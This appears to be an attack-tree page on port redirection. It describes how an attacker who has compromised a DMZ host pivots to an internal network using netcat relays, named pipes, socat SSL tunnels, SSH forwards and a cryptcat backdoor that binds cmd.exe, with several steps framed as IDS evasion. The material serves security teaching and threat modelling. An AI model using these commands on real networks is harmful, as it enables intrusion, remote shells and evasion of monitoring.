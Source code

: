 # Port redirection

In port redirection, an adversary uses a machine with access to the internal network to pass traffic through a port on the firewall or access control list (ACL). The port in question normally denies traffic, but with redirection a hacker can bypass security measures and open a tunnel for communication.

For example,  most organisations have a demilitarized zone (DMZ). Servers that communicate from the DMZ and the internal network may have a trust relationship established. The internal devices may be set up to trust information that is received from a DMZ server, and often also vv. When an adversary can compromise a DMZ server she can initiate a connection to the internal network. There are a lot of ways that port redirection can be used to get around obstacles.

* Leverage network access by compromising one system to attack another.
* Access a service that is being blocked by a firewall.
* Evading an intrusion detection system by sending traffic through an encrypted tunnel.

## Attack

```
1 Compromise host in DMZ gaining direct access on port 80/tcp only (AND)
2 Compromise host in internal network by setting a bind shell to listen on port 23 (AND)
3 Redirect
    3.1 One way port redirection with netcat (OR)
        3.1.1 On attack host set up to receive response traffic 
                (nc -lv 3333) (AND)
        3.1.2 Redirect on host in DMZ 
                (nc -lv 80 | nc -t [IP address internal host] 23 | nc [IP address attack host] 3333) (AND)
        3.1.3 Initiate connection to host in DMZ on port 80/tcp (nc [IP address DMZ host] 80) (AND)
        3.1.4 Run commands from window created and receive the command response in the other window.
    3.2 Two way redirection using netcat and named pipes (OR)
        3.2.1 Make pipe on attack host (mkfifo pipe) (AND)
        3.2.2 Redirect on host in DMZ 
                (nc -lvp 80 <pipe | nc -t [IP address internal host] 23 >pipe) (AND)
        3.2.3 Initiate a connection to host in DMZ on port 80/tcp 
                (nc [IP address DMZ host] 80 or telnet [IP address DMZ host] 80) (AND)
        3.2.4 Issue commands and receive command output in the same window
    3.3 Redirect traffic from one port to another on the same host (OR)
        3.3.1 Make pipe on attack host (mkfifo pipe) (AND)
        3.3.2 SSH into host in DMZ if sshd is listening on loopback 
                (nc -lvp 80 <pipe | nc localhost 22 >pipe) (AND)
        3.3.3 Connect 
                (ssh -p 80 [IP address DMZ host])
    3.4 Set up two way redirection using socat (OR)
        3.4.1 (socat TCP-LISTEN:80,fork TCP:[IP address internal host]:23)
    3.5 Evade IDS with socat (OR)
        3.5.1 Generate certificates for each host (dmzhost.pem and internalhost.pem) (AND)
            3.5.1.1 Generate a public/private key pair 
                    (openssl genrsa -out [host].key 1024) (AND)
            3.5.1.2 Self sign the certificate 
                    (openssl req -new -key [host].key -x509 -out [host].crt) (AND)
            3.5.1.3 Generate the PEM certificate by concatenating the key and certificate files 
                    (cat [host].key [host].crt > [host].pem) (AND)
            3.5.1.4 Copy the PEM certificate to the host (AND)
        3.5.2 Set up SSL encrypted tunnel on DMZ host to internal host 
                (socat TCP-LISTEN:80, fork openssl-connect:[IP address internal host]:8080,
                cert[dmzhost].pem,cafile=[internalhost].crt)
        3.5.3 Set up listener on internal host 
                (socat openssl-listen:8080,reuseaddr,
                cert=[internalhost].pem,cafile=[dmzhost].crt,fork TCP:localhost:23)
    3.6 Two way tunnel between attack host and internal host using ssh (OR)
        3.6.1 SSH connection with host in DMZ (AND)
        3.6.2 Setup a listener on attack host on port 3333/tcp 
                to forward traffic it receives to the internal host on port 23, via host in DMZ 
                (ssh -L 3333:[internalhost]:23 username@[dmzhost])
    3.7 Bypass IDS using two ssh local forwards (OR)
        3.7.1 SSH connection with host in internal network (AND)
        3.7.2 Login to host in DMZ 
                (ssh -L 3333:localhost:3333 username@[dmzhost]) (AND)
        3.7.3 On DMZ host login to host in internal network 
                (ssh -L 3333:localhost:23 username@[internalhost])
    3.8 Setting up attack host as a proxy between DMZ host and a Service host using ssh remote forward (OR)
        3.8.1 Connect to DMZ host with ssh remote forward and connect to 80/tcp of a Service host via the 
                loopback adapter on the DMZ host (ssh -R 80:[servicehost]:80 username@[dmzhost])
    3.9 Bypass IDS and firewall 
            (port 80 is nearly always open and a little more traffic will hardly be noticed) with cryptcat
        3.9.1 Create backdoor to decrypt communications from DMZ host 
                (cryptcat -k SECRETKEY -tlp 23 -e cmd.exe)
        3.9.2 Create named pipes on host in DMZ and attack host
        3.9.3 Create tunnel on host in DMZ 
                (cryptcat -k SECRETKEY -lp 80 <pipe | cryptcat -k SECRETKEY -t [internalhost] 23 >pipe)
        3.9.4 Create listener on attack host to encrypt the traffic to DMZ host 
                (cryptcat -k SECRETKEY -lvp 23 <pipe | cryptcat -k SECRETKEY -t [dmzhost] 80 >pipe)
        3.9.5 Initiate a telnet connection to local forwarder 
                (telnet localhost 23)
```
